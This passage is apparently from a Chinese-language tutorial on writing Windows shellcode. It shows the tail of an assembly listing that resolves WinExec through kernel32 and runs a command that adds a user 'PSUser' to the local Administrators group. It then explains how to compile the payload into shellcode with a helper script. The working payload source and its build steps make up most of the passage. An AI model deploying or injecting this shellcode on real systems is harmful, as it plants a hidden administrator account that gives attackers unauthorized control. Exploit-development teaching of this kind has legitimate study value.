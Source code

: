 ```
    db 0x73
;END DEFINE CONSTANTS
start_asm: ; start our main program
    sub esp, 0x08 ; allocate space on stack for function addresses
    mov ebp, esp ; set ebp as frame ptr for relative offset on stack
    call find_kernel32 ;find address of Kernel32.dll
    mov edx, eax
    ;resolve kernel32 symbols
    jmp short locate_hashes ;locate address of our hashes
locate_hashes_return: ;define return label to return to this code
    pop esi ;get constants address from stack
    lea edi, [ebp + 0x04] ;this is where we store our function addresses
    mov ecx, esi
    add ecx, 0x08 ;length of dns shellcode hash list
    call resolve_symbols_for_dll
;add user section
    jmp short GetCommand
CommandReturn:
    pop ebx ;ebx now holds the handle to the string
    xor eax,eax ;empties out eax
    push eax ;push null onto stack as empty parameter value
    push ebx ;push the command onto the stack
    call [ebp+4] ;call WinExec(path,showcode)
    xor eax,eax ;zero the register again, clears winexec retval
    push eax ;push null onto stack as empty parameter value
call [ebp+8] ;call ExitProcess(0);
GetCommand:
    call CommandReturn
    db "cmd.exe /c net user PSUser PSPasswd /ADD && net localgroup Administrators /ADD PSUser"
    db 0x00
+--------------- End adduser-dynamic.asm --------------+ 
```

编译汇编代码

在前面的教程中,我们可以手动地用 nasm 编译汇编代码来完成每一个步骤,使用 xxd 和 xxd-shellcode.sh 来去除未经修改的 shellcode,把未经修改的 shellcode 插入到 shellcodetest.c 中,然后用 gcc 编译这个测试程序.每次要完成对 shellcode 作出略微的更改是有点难度的.

因为这个原因,我已经创建了”shellcode-compiler.sh”,它可以为你做所有这些步骤！你应该已经在教程 1 中下载了这个脚本,和任意其它必须的脚本和程序.这个程序的用法如下所示：

```
$ ./shellcode-compiler.sh
      Usage: ./shellcode-compiler.sh filename.asm
      Eg, ./shellcode-compiler.sh shellcode.asm 
```

把汇编文件作为一个输入到编译器的文件,同时创建”filename.shellcode”形式的 Cygwin 环境下的可执行文件.这个教程的汇编文件可以使用如下命令编译,并输出如下所示

> $ ./shellcode-compiler.sh adduser-dynamic.asm

把 adduser-dynamic.asm 编译成 adduser-dynamic.bin

[nasm -f bin -o adduser-dynamic.bin adduser-dynamic.asm]

把 adduser-dynamic.bin 转换成 adduser-dynamic.shellcode
